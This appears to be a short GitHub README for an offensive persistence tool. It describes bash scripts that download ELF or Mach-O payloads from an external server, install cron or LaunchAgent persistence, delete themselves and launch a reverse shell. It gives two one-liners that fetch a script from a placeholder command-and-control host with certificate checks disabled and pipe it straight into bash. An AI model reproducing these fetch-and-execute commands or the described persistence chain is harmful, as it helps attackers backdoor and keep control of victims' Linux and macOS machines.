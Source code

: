 # Persistence Bash Script for Linux and OSX

### Linux
Script for Linux downloads an elf payload from external url and set cron persistence on reboot, then remove itself. It checks if script is launched as root or as user.

### OSX
Script for OSX downloads a Mach-O file from external url then making persistence downloading a plist and LaunchAgents from external url, lastly executes macho reverse shell.


##### ONE LINER OSX
`$ curl -s -k https://C2C_IP/osx_persistence | bash`

##### ONE LINER LINUX
`$ wget -q --no-check-certificate -O - https://C2C_IP/linux_persistence | bash`
